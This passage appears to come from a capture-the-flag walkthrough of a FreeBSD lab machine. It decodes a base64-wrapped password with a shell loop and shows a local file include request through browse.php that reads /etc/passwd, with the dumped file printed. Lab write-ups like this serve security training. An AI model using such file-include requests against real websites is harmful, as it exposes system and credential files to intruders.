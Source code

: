 

It's clearly base64 encoded, so let's decode it:



    root@kali# data=$(cat pwd.b64); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data
    Charix!2#4%6&8(0



Now we have a password.

### Local File Include (LFI)

Entering those php scripts into the bar does run them, but there's also
an obvious local file include that allows any site visitor to grab any
file they want:
`view-source:http://10.10.10.84/browse.php?file=%2Fetc%2Fpasswd`



    # $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
    #
    root:*:0:0:Charlie &:/root:/bin/csh
    toor:*:0:0:Bourne-again Superuser:/root:
    daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
    operator:*:2:5:System &:/:/usr/sbin/nologin
    bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
    tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
    kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
    games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
    news:*:8:8:News Subsystem:/:/usr/sbin/nologin
    man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
    sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
    smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
    mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
    bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
    unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
    proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
    _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
    _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
    uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
    pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
    auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
    www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
    _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
    hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
    nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
    _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
    messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
    avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
    cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
    charix:*:1001:1001:charix:/home/charix:/bin/csh
